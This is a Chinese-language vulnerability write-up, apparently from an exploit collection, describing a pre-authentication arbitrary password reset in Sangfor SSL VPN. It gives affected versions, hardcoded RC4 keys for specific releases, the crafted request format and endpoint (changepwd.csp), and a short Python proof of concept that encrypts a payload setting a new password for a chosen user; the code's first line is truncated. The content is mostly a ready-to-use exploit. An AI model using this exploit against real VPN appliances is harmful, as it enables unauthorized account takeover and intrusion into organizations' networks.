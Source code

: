 深信服 SSL VPN - Pre Auth 任意密码重置
======================================

一、漏洞简介
------------

二、漏洞影响
------------

高版本(如M7.6.8R2) 直接删除相关函数

低版本(如M7.6.6R1) 升级版存在此漏洞

打了 5.x-7.x 补丁的无法利用

三、复现过程
------------

### 漏洞分析

差不多的逻辑

![1.png](./.resource/深信服SSLVPN-PreAuth任意密码重置/media/rId25.png)

唯独多了个 RC4 解密，key 是 20100720

![2.png](./.resource/深信服SSLVPN-PreAuth任意密码重置/media/rId26.png)

在数据提取中写的有点奇怪,使用,和=作为分隔符，所以我们的数据也要类似如：

`,username=test,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=QQ123456,`

![3.png](./.resource/深信服SSLVPN-PreAuth任意密码重置/media/rId27.png)

M7.6.6R1 key 为 `20181118`

M7.6.1 key 为 `20100720`

其他版本另寻

    https://www.0-sec.org/por/changepwd.csp

    sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN

![4.png](./.resource/深信服SSLVPN-PreAuth任意密码重置/media/rId28.png)

### poc

> poc.py

    rom Crypto.Cipher import ARC4
    from binascii import a2b_hex


    def myRC4(data,key):
        rc41 = ARC4.new(key)
        encrypted = rc41.encrypt(data)
        return encrypted.encode('hex')


    def rc4_decrpt_hex(data,key):
        rc41 = ARC4.new(key)
        return rc41.decrypt(a2b_hex(data))
    key = '20100720'
    data = r',username=2003010002,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=zxc123,'
    a = myRC4(data, key)
    print a
    print len(a)

参考链接
--------

> https://blog.sari3l.com/
